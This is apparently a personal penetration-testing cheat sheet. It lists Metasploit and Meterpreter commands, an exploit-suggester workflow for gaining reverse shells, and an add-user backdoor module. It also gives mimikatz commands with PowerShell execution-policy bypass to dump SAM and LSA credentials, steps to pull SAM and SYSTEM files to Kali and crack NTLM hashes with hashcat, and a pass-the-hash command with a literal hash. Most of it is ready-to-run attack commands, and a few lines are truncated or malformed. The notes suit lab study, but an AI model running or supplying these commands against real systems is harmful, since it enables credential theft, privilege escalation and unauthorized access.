 
## Metasploit (msf6)
- start: `msfconsole`
- search for modules: `search ms17`
- to use a module: `use <#>` or use `use auxiliary/scanner/smb/smb ms17 010`
- see options that needs to be filled: `options`
- set rhost: `set rhosts 192.168.1.53`
- deploy: `run`
- see exploit target of a module: `show targets`
- check if payload matches your target e.g. x64 or x86 machine: `show payloads`
- Backdoor add user: `windows/manage/add_user`

## Meterpreter (meterpreter >)
- We can background a currently running meterpreter session and return back to msfconsole using: `background`
- To check meterpreter sessions at background: `sessions -i`
- to go back to session #5 in background meterpreter session: `sessions -i 5`+

## Metasploit frame
1. run exploit suggester to enumerate vuls in target: `use post/multi/recon/local_exploit_suggester`
2. for each vulnerabilities suggested, run metasploit payload to obtain Reverse shell: `use exploit/windows/local/ms10_015_kitrap0d`
3. repeat thru the listed of suggested exploits and try until success

## Dump SAM (NTLM) and LSA using mimikatz
1. needs to be admin to run mimikatz
2. `powershell -ep bypass`
3. `import-module .\invoke-mimikatz.ps1`
4. `Invoke-Mimikatz -Command '"privilege::debug" "token::elevate" "sekurlsa::logonpasswords" "lsadump::sam" "exit"'`

## Crack SAM (NTLM hash) and SYSTEM
1. On Windows, run hfs.exe to transfer SAM and SYSTEM to Kali (drag and drop)
2. On Kali, `wget http://192.168.1.55/sam` and `wget http://192.168.1.55/system`
3. Use samdump2 to decrypt SAM. `samdump2 system sam`
4. Copy and paste the hashes from (3) to notepad: `hashcat -m 1000 -a 3 hashes.txt rockyou.txt`
5. Note: -m specifies the hash type to decrypt e.g. 1000 = NTLM
   
## pass the hash using mimikatz
1. `powershell -ep bypass`
2. import-module .\invoke-mimikatz.ps1`
3. `Invoke-Mimikatz -Command '"sekurlsa::pth /user:stdent5 /domain:pentesting/ntlm:369def79d8372408bf6e93364cc93075 /run:powershell.exe"'`
4. Wait for 
5. Note for PTH, hash is valid only until the user change the password -> use RC4, while pass the ticket is only valid for a few hours.
6. Note: Kerberos is using AES256**
